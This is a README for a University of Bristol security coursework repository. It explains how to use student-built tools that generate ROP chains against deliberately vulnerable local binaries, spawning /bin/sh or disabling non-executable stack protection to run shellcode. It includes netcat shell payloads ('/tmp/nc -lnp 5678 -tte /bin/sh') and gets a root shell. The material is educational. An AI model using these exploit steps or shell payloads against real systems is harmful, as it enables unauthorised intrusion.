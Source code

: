 # COMSM0051 Systems and Software Security Coursework
## Project 4
### Group Members

This repository contains the source code created for the COMSM0051 Systems and Software Security unit at the University of Bristol.

The members of the group are:

* Ruairi Fox (rf17160)
* Bogdan Stelea (bs17580)
* Emil Centiu (zl18810)

## Instructions

### Prerequisites

The project has been developed and tested on a Ubuntu 18.04.5 LTS Bionic Beaver Virtual Machine. Please run the following commands to install all the packages needed to execute the project:

* `sudo apt-get update`
* `sudo apt-get install -y python3-pip gcc-multilib gdb`
* `sudo apt-get install -y libncurses5-dev libncursesw5-dev`
* `sudo apt-get install -y lynx`
* `sudo apt-get git`
* `git clone https://github.com/slimm609/checksec.sh.git`
* `sudo cp checksec.sh/checksec /bin/checksec`
* `pip3 install pygdbmi`
* `pip3 install capstone`
* `pip3 install ropgadget`

A Vagrantfile is also provided in the repository which will install automatically all the required packages on provision when initialising the VagrantBox `vagrant up`.
In order to use the Vagrantfile, the Vagrant and Oracle VirtualBox utilities need to be installed. 

In order to install VirtualBox please follow the instructions for specific Operating Systems [here](https://www.virtualbox.org/wiki/Downloads).
In order to install Vagrant please follow the instructions for specific Operating Systems [here](https://www.vagrantup.com/).

### Connecting to the Vagrant Virtual Machine

1. Start the Vagrant Virtual Machine: `vagrant up`
1. Connect to the Vagrant Virtual Machine: `vagrant ssh`
1. Change directory to the shared directory which includes the project files: `cd s3`

### Running `ropoverflow_execve.py`

The tool `ropoverflow_execve.py` is a Python3 program that given arbitrary command line arguments to be passed to the `execve()` system call automatically generates the corresponding ROP chain.

The program can be used as follows: `python3 ropoverflow_execve.py <binary name> <payload name>`, where `<binary name>` should be replaced with the compiled binary that is vulnerable to a stack buffer overflow exploit, e.g. `vuln3-32-test`, and `<binary name>` should be replaced with the name of the binary file that will contain the ROP chain, e.g. `exploit.bin`.

The program will also prompt the user to type the command line arguments to be passed to the `execve()` system call separated by whitespace (i.e. `" "`). The program will automatically detect if further `/` characters need to be inserted. 

Here are some example command line parameters that can be given as input when prompted:

* `/bin/sh`
* `/bin//sh`
* `/bin/sh ./exe/crl.sh`
* `/bin/sh ./exe/lyn.sh`
* `/tmp/nc -lnp 5678 -tte /bin/sh`
* `/tmp//nc -lnp 5678 -tte /bin//sh`

The program will generate a file having the same name as written by the user when executed corresponding to the `<payload name>` entry. This can be passed in as input to the vulnerable binary in order to inject the payload, for example `./vuln3-32-test exploit.bin`.

#### Example Use Case
1. Run `python3 ropoverflow_execve.py vuln3-32-test exploit.bin`
1. When prompted, enter the command line arguments: `/bin/sh`
1. Run `./vuln3-32-test exploit.bin`
1. The program will return an interactive shell:
```
opening file
file opened
$
``` 

### Lab4 Reverse Shell Exploit Task Using `ropoverflow_execve.py`
#### Aim
Open a port on the victim machine using netcat tool that returns a shell (reverse shell exploit).
#### Steps
1. Change current directory to `s3` : `cd s3`
1. Copy netcat to temporary folder using `cp ~/netcat-0.7.1/src/netcat /tmp/nc` (check using `/tmp/nc --help`)
1. Compile vuln3.c using `gcc -fno-stack-protector -m32 -static vuln3.c -o vuln3-32-test` (the example binary is already compiled and present under the same name, `vuln3-32-test`, in the current directory)
1. Build the exploit input string using `python3 ropoverflow_execve.py vuln3-32-test exploit.bin`. When prompted with the message `"Enter exploit parameters:"` enter: `/tmp/nc -lnp 5678 -tte /bin/sh`
1. Run the compiled vulnerable binary passing the exploit file as input (e.g. `./vuln3-32 exploit.bin`)
1. In a separate terminal run `/tmp/nc 127.0.0.1 5678` and check if the reverse shell exploit is working

### Running `ropoverflow_execve.py` Evaluation
1. Change current directory to vulnerable_programs/: `cd ~/s3/vulnerable_programs`
1. (Optional) Delete binary files: `make clean`
1. Compile vulnerable binary files: `make all`
1. Return to project directory: `cd ..`
1. Create ROP-chain exploit file for a vulnerable binary: `python3 ropoverflow_execve.py ./vulnerable_programs/vuln3-32-0 exploit.bin`
1. Enter `execve` parameters when promted by the program: 
```
Enter exploit parameters: /bin/sh
```
1. Run vulnerable binary file with the exploit file as input: `./vulnerable_programs/vuln3-32-0 exploit.bin`
1. The program will return an interactive shell:
```
opening file
file opened
$
``` 
### Running `ropoverflow.py`

The tool `ropoverflow.py` is a Python3 program that given an arbitrary shellcode file will generate a ROP chain that will call the `mprotect` system call which will disable the `write-xor-execute` protection from the stack, and then will call the `read` system call to read the shellcode from the standard input, which will place the shellcode on the program stack, and then execute the payload.

The program is run with the command: `python3 ropoverflow.py <binary name> <payload name>`, , where `<binary name>` should be replaced with the compiled binary that is vulnerable to a stack buffer overflow exploit, e.g. `vuln3-32-test`, and `<binary name>` should be replaced with the name of the binary file that will contain the ROP chain, e.g. `exploit.bin`.

The shellcode needs to be saved in a binary file, for example `badfile`. Then the user can run the exploit by using the `cat` Linux utility to paste the content of the shellcode file to the terminal and append `-` to allow the program to process entries from standard input, and use the pipe (`|`) operator to pass the content of the file to the vulnerable binary that is being passed the payload file containing the ROP chain generated by the `ropoverflow.py` program. An example command looks like following: `cat badfile -| ./vuln3-32-test exploit.bin`. 

#### Example Use Case
1. Run `python3 ropoverflow.py vuln3-32-test exploit.bin`
1. Run `cat test_codes/shell - | sudo ./vuln3-32-test exploit.bin`
1. The program will return a root user shell